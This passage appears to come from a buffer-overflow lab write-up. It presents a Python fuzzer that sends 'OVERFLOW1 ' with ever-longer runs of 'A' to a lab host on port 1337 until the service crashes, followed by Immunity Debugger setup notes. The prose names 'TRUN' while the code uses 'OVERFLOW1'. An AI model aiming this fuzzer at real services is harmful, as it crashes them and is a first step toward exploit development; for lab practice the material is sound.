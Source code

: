 
Fuzzing is just like spiking, but now that we know that this server is vulnerable to `TRUN` and not `STATS` we will use this python3 script for it :

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.239.130"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

The purpose of this script is so far there is connection to our target which is specified with the `ip` and `port` , it will keep sending buffer, we are trying to narrow down where things are breaking and it byte size

- Save your script with `.py` and make sure you have immunity debugger and vulnserver ready
- Also make sure you click the `run` button first on immunity debugger before moving on

